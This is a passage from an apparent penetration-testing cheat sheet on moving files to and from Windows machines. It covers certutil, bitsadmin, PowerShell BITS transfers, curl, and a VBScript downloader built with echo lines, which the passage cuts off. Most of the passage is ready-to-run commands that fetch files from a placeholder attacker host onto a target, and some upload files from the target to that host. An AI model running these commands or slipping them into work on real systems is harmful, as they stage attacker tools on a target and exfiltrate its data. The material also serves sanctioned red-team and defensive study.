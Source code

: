 ```
certutil -urlcache -f http://<attacker>/<filename> <destination-path>
```


### bitsadmin HTTP


The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

The /transfer in bitsadmin is one of the simplest ways to download the file from the attacker machine. But bitsadmin download speed is slow.

```
bitsadmin /transfer job http://<attacker>/<filename> <destination-path>
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, and can use specified proxy servers (-ProxyList).

```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://<attacker>/<filename>" -Destination "<dest-path>"
Start-BitsTransfer "<source-path>" -Destination "http://<attacker>/<filename>" -TransferType Upload
```


### curl HTTP

The `curl` utility is now included in Windows Command Prompt and can be used to download and upload files:

```
curl http://<attacker>/<filename> -o <destination-path>
curl -X POST http://<attacker>/upload -F 'files=@<filename>'
```

It has a collisium with PowerShell's alias for Invoke-Webrequest, so you can use it in cmd.exe only.


### VBScript HTTP


Windows systems supports VBScripts and we can use it in our purposes. This method can work with old systems like XP and 2003.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
```